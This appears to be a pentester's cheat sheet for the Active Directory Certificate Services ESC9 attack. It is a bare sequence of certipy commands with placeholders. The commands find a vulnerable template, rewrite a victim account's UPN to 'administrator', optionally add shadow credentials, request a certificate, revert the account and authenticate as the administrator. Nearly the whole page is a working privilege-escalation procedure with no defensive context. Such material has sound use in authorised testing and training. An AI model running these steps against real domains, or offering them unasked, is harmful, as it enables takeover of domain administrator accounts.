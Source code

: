 # ADCS ESC9

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Read Victim User (optional)
```
certipy account -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -user '<VICTIM>' read
```

## 3. Update Victim User
```
certipy account -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -upn 'administrator' -user '<VICTIM>' update
```

## 3a. Shadow Credentials (if needed)
```
certipy shadow -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -account '<VICTIM>' auto
```
## 4. Export Ticket
```
export KRB5CCNAME=<USERNAME>.ccache
```

## 5. Request certificate
```
certipy req -k -dc-ip '<DC_IP>' -target '<CA_FQDN>' -ca '<CA_HOST>' -template '<TEMPLATE>'
```
## 6. Revert Victim User
```
certipy account -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -upn '<VICTIM>@<domain>' -user '<VICTIM>' update
```

## 7. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP> -domain <domain>
```

